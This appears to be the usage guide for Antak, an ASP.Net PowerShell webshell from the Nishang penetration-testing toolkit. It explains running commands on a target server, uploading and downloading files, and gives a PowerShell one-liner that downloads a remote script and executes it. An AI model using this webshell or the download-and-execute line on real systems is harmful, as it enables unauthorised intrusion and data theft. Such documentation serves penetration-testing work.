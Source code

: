 Antak is a webshell written in ASP.Net which utilizes PowerShell.
Antak is a part of Nishang and updates can be found here:
https://github.com/samratashok/nishang

Use this shell as a normal PowerShell console. Each command is executed in a new process; keep this in mind
while using commands (like changing current directory or running session aware scripts). 

Executing PowerShell scripts on the target:

1. Paste the script in command textbox and click 'Encode and Execute." A reasonably large script could be executed using this.

2. Use PowerShell one-liner (example below) to download & execute in the command box.
IEX ((New-Object Net.WebClient).DownloadString('URL to script here')); [Arguments here]

3. Upload the script to the target and execute it.

4. Make the script a semi-colon separated one-liner.

Files can be uploaded and downloaded using the respective buttons:

Uploading a file:
To upload a file, you must mention the actual path on the server (with write permissions) in the command text box. 
(OS temporary directories like C:\Windows\Temp may be writable.)
Then, use the browse and upload buttons to upload file to that path.

Downloading a file:
To download a file, enter the actual path on the server in the command text box.
Then click on Download button.


A detailed blog post on Antak can be found here:
http://www.labofapenetrationtester.com/2014/06/introducing-antak.html